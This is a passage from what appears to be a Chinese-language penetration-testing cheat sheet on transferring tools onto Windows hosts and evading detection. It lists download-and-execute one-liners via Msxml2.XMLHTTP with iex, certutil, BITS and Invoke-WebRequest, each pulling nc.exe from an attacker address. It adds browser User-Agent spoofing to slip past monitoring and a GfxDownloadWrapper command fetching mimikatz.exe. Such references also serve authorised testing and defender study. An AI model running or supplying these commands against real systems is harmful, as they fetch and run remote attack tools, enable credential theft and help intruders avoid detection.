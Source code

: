 3.Msxml2

```powershell-session
$h=New-Object -ComObject Msxml2.XMLHTTP;
$h.open('GET','http://10.10.10.32/nc.exe',$false);
$h.send();
iex $h.responseText

User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)

```

4.Certutil

```cmd-session
certutil -urlcache -split -f http://10.10.10.32/nc.exe 
certutil -verifyctl -split -f http://10.10.10.32/nc.exe

User-Agent: Microsoft-CryptoAPI/10.0

```

5.BITS

```powershell-session
Import-Module bitstransfer;
Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
$r=gc $env:temp\t;
rm $env:temp\t; 
iex $r

User-Agent: Microsoft BITS/7.8

```

## 5.8 规避检测

[Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1) 包含一个 UserAgent 参数，该参数允许将默认用户代理更改为模拟 Internet Explorer、Firefox、Chrome、Opera 或 Safari 的用户代理。

```
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl


$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"

GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

# 六、AD域攻击
